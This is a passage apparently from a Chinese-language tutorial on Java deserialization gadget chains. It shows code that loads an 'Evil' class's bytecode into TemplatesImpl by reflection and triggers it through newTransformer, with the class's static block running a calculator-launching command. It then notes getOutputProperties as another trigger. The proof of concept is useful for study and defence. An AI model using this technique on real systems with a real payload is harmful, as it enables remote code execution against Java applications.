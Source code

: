```java
        setField("_bytecodes",template,new byte[][]{Files.readAllBytes(Paths.get("/Users/CC3/Evil.class"))});
        setField("_tfactory",template,new TransformerFactoryImpl());
        template.newTransformer();
    }

    public static void setField(String fieldname,Object obj,Object value) throws NoSuchFieldException, IllegalAccessException {
        Class<TemplatesImpl> templatesClass = TemplatesImpl.class;
        Field declaredField = templatesClass.getDeclaredField(fieldname);
        declaredField.setAccessible(true);
        declaredField.set(obj,value);
    }
}
```

Evil类定义为：

```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.IOException;

public class Evil extends AbstractTranslet {
    static {
        try {
            Runtime.getRuntime().exec("open -a Calculator");
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```

首先我们往上走一步，搜索哪些方法调用了`newTransformer()`，在CC3中我们利用的是TrAXFilter的构造函数，而这里我们发现TemplatesImpl的getOutputProperties方法中也调用了`newTransformer()`

```java
public synchronized Properties getOutputProperties() {
  try {
    return newTransformer().getOutputProperties();
  }
  catch (TransformerConfigurationException e) {
    return null;
  }
}
```
